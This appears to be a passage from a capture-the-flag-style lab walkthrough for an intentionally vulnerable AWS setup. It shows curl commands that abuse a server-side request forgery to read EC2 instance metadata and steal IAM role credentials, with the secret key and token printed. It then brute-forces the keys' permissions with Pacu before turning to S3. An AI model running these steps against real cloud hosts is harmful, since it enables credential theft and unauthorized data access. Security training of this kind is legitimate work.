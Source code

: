 ```
latest
```

Awesome!! 

We can walk all around the meta-data:

```
curl http://ec2-54-85-35-195.compute-1.amazonaws.com?url=http://169.254.169.254/latest/meta-data/iam/info/
```

Looks like there is a profile associated with this:

```
{
  "Code" : "Success",
  "LastUpdated" : "2019-09-26T13:39:02Z",
  "InstanceProfileArn" : "arn:aws:iam::944882903810:instance-profile/cg-ec2-instance-profile-cgid0aj9eyqxxk",
  "InstanceProfileId" : "AIPA5X73I5MBF6BNYTDSF"
}
```

All good signs!

Lets see if we can find credentials!
```
curl http://ec2-54-85-35-195.compute-1.amazonaws.com?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-cgid0aj9eyqxxk/
```

Boom, keys!

```
{
  "Code" : "Success",
  "LastUpdated" : "2019-09-26T13:38:42Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA5X73I5MBK5DG5SMA",
  "SecretAccessKey" : "i0i/UIiETrHbCZ6rnxc96avTMr9NHAL5aSGZb6V2",
  "Token" : "AgoJb3JpZ2luX2VjEIb//////////wEaCXVzLWVhc3QtMSJGMEQCIB0MPkK2gpMCcwIHR2w20WG",
  "Expiration" : "2019-09-26T20:13:50Z"
}
```

Lets set these as another profile and see what we can do.

Dropping them into pacu they seem pretty limited, if we brute force 

```
run iam__bruteforce_permissions
```

The only thing these credentials provide access to is s3.lets see what’s there. We’ll add the session to aws credentials and include the token with
aws_session_token

Now we can ls s3
